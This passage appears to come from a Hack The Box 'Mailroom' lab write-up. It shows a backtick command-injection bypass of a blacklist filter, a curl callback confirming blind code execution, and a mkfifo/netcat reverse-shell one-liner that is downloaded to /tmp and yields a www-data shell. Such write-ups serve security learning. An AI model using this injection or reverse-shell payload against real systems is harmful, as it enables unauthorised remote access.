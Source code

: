 Now i have access to the vulnerable code, just need to exploit it. As it often happens with these blacklist filters, it is missing a character. This character is  backtick, `` ` ``. In bash, a code within backticks is executed and it's output returned. If this works, it would a blind code execution, since the original command in going to error out. I tried using ping to test out the RCE, but i didn't work. However, when i use curl, i get a connection back:

![RCE](/assets/screenshots/htb-mailroom/RCE.png)

```
 ❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.209 - - [19/Apr/2023 08:15:07] "GET / HTTP/1.1" 200 -
```

Now, to get a reverse shell, i need to use a payload without any of the banned characters. But i know curl works, so i can just write a revershe shell to a file:
```
❯ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.198 9999 >/tmp/f' > rev
```

Then download the file using curl. It is important to save it to a writable directory for all users, like `/tmp`:

![rev](/assets/screenshots/htb-mailroom/rev_shell.png)

I start a netcat listener on my machine, execute the payload like this:

![rev2](/assets/screenshots/htb-mailroom/rev_shell2.png)

And i get a connection back on my listener:
```
❯ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.209] 37880
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
